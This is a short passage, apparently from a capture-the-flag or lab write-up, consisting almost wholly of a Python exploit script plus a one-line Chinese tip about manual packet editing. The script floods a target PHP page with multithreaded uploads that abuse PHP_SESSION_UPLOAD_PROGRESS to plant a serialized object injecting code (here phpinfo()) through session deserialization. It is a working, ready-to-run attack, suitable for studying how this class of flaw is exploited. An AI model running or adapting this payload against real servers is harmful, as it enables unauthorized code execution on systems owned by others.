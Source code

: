 ```python
#coding=utf-8
import requests
import threading
import io
import sys

def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
        'DNT': '1',
        'Cookie': 'PHPSESSID=20190506',
        'Connection': 'close',
        'Upgrade-Insecure-Requests': '1'
        }
        proxy = {
        'http': '127.0.0.1:8080'
        }
        data={'PHP_SESSION_UPLOAD_PROGRESS':'123'}
        files={
            'file':(r'|O:4:\"Door\":1:{s:6:\"handle\";O:2:\"IP\":1:{s:2:\"ip\";s:10:\"phpinfo();\";}}',f,'text/plain')
        }
        resp = requests.post(url,headers=headers,data=data,files=files,proxies=proxy) #,proxies=proxy
        resp.encoding="utf-8"
        if len(resp.text)<2000:
            print('[+++++]retry')
        else:
            print(resp.content.decode('utf-8').encode('utf-8'))
            et.clear()
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()
```

或者也可以自己手动上传文件，然后抓包修改
